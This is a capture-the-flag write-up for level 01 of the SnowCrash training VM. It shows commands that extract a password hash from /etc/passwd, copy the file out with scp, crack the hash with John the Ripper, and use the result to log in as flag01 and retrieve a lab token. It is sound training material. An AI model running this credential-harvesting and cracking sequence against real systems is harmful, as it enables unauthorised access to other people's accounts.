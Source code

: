 # Level 01

## Vulnerability
Password stored in publicly readable file, weak encryption

## Solution
First step, look for flag01 password.
For some reason we have read rights on /etc/passwd...
```
level01@SnowCrash:~$ ls -l /etc/ | grep 'passwd'
-rw-r--r-- 1 root root    2477 Mar  5  2016 passwd
```

This is where user account details are stored. Let's look inside. 
Note: [the second field](https://www.cyberciti.biz/faq/understanding-etcpasswd-file-format/) is the password.
```
level01@SnowCrash:~$ grep 'flag01' /etc/passwd
flag01:42hDRfypTqqnw:3001:3001::/home/flag/flag01:/bin/bash

level01@SnowCrash:~$ grep 'flag01' /etc/passwd | cut -d ':' -f 2
42hDRfypTqqnw
```

Copy the password to your home machine (outside of the VM). 
```
scp -P4242 level01@{VM_IP}:/etc/passwd vm_passwd
```

Cut out user flag01's password and save in a new file. 
```
grep 'flag01' vm_passwd | cut -d ':' -f 2 >> password
```

Next, install JohnTheRipper (a popular password cracker) and run on the password. 
```
git clone https://www.github.com/magnumripper/JohnTheRipper john
cd john/src
./configure LDFLAGS=-L$HOME/.brew/opt/openssl/lib CPPFLAGS=-I$HOME/.brew/opt/openssl/include
make -s clean && make -sj4
cd john/run
./john --show ../../password
abcdefg
1 password hash cracked, 0 left
```

Let's try to log in to user flag01...
```
level01@SnowCrash:~$ su flag01
Password: abcdefg
```

Run getflag!
```
flag01@SnowCrash:~$ getflag
Check flag.Here is your token : f2av5il02puano7naaf6adaaf
```
